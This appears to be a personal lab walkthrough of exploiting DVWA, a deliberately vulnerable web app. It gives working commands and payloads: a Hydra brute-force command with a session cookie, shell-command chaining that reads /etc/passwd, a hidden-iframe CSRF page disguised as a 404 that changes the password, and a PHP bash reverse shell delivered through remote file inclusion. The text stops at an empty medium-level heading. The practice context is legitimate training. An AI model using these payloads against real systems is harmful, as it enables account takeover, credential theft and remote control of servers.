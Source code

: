 # [Brute Force]

--- 

## Steps to Exploit

1. Navigate to a directory with a wordlist in it. Or copy one to a directory. Or set the path to it in hydra.
2. hydra -l admin -P rockyou.txt 192.168.1.117 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=58g00j5r76tjr9jhji9gbif564;security=medium:F=Username and/or password incorrect."
- -l states its a login
- -P calls a pass list
- IP is DVWA dest IP on vlan (hopefully lol)
- Set web server directory
- If you inspect the DVWA login form you will see the name of the elements you need to specify for hydra to know what on the web page its trying to brute force.
- Set cookies. Without DVWA rejects the request as it doesn't represent a legitimate request. Can get these from performing a get request on the server and viewing dev stuff in firefox/chrome/brave etc.
3. Login


# [Command Execution]

--- 

## Steps to Exploit

1. Get an IP from your internal network/vlan.
- In Linux arp -a
2. Different command chaining options
- ; && || | $()
3. Try all of these. Some work
4. 192.168.1.1 | cat /etc/passwd


# [CSRF]

--- 

## Steps to Exploit

1. So to make this a bit more interesting I'll whack it in an iframe. When loaded it will change your password on DVWA.
2. After having a look at network in dev tools the request is a GET request when changing pass
3. Also observed if you have a look in the URL after changing the password the params are very easily editable to change pass
4. Because there isn't a token in the GET request, we don't need to call a specific cookie/user token to choose what accounts password we are changing.
5. Here's the HTML page
- <!DOCTYPE html>
<html>
  <head>
    <title>Error</title>
  </head>
  <body>
    <h2>404 Page Not Found</h2>
    <iframe 
      src="http://192.168.1.117/dvwa/vulnerabilities/csrf/?password_new=password123&password_conf=password123&Change=Change" 
      width="0" 
      height="0" 
      style="display:none;">
    </iframe>
  </body>
</html>
6. Changes password to 'password123' for the user that is logged in. This only works if the user is logged into the website at the time.
7. To test this work you can boot up burp for your browser and you will see the forward request come through when you load this malicious html file.
8. You can also host a HTTP server on your host as well. Then if I visit (my-host-ip:port-assigned-to-http-server/malicious-html-filename.html it will commit the change.
9. So I could send this link to a mailbox. And anything that clicks on, that is logged in to the website in question. Will have there password changed.
10. CSRF vulnerabilities are quite obsolete now as most modern sites don't send cookies via GET/POST requests.


# [File Inclusion]

---

## Steps to Exploit LOW

- I've done Low here cause I think it's neat. And demonstrates a bit.

1. Alright lets run a .php reverse shell for this
2. Find ur ip on the internal network/vlan
3. <?php exec("/bin/bash -c 'bash -i>& /dev/tcp/192.168.1.120/1234 0>&1'"); ?>
- Save as shell.php
- IP is your Kali machines IP and the port is whatever port you are going to run the listener on
4. 'Python -m http.server'
5. 'nc -lvnp 1234'
6. Now in the URL in DVWA. Set http://192.168.1.117/dvwa/vulnerabilities/fi/?page=http://192.168.1.120:8080/shell.php (Whatever the equivalent is for ur machine)
7. This tricks the web server into running the .php file from our kali machine. Thus, creating a reverse shell. Easy right!

## Steps to Exploit MEDIUM
